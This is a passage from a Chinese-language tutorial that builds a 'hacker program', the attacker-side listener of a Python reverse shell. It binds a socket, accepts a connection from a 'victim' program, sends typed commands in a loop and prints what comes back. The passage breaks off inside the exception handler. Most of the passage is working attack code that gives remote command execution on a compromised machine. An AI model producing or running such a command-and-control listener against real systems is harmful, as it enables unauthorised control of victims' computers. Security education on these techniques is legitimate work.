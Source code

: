 一旦命令发送出去，受害者端程序会负责执行它并返回结果。在黑客程序中，我们只是接收受害者返回的结果并将其打印出来：

command_result = hacker_socket.recv(1048)

print(command_result.decode())

接下来，我们将把它放入一个循环中，并添加退出条件：

while True:

command = input("请输入命令 ")

hacker_socket.send(command.encode())

if command == "stop":

break

command_result = hacker_socket.recv(1048)

print(command_result.decode())

**if** 语句确保我们能够在需要时安全地退出这个循环，从而避免陷入死循环。此外，为了确保在执行过程中遇到任何错误时能够正确关闭套接字，我们会添加一个**try-catch**块进行异常处理。执行命令的完整黑客程序如下所示：

import socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

hacker_socket.listen(5)

print("监听传入的连接请求")

hacker_socket, client_address = hacker_socket.accept()

print("与 ", client_address, " 建立连接")

try:

while True:

command = input("请输入命令 ")

hacker_socket.send(command.encode())

if command == "stop":

break

command_result = hacker_socket.recv(1048)

print(command_result.decode())

except Exception:
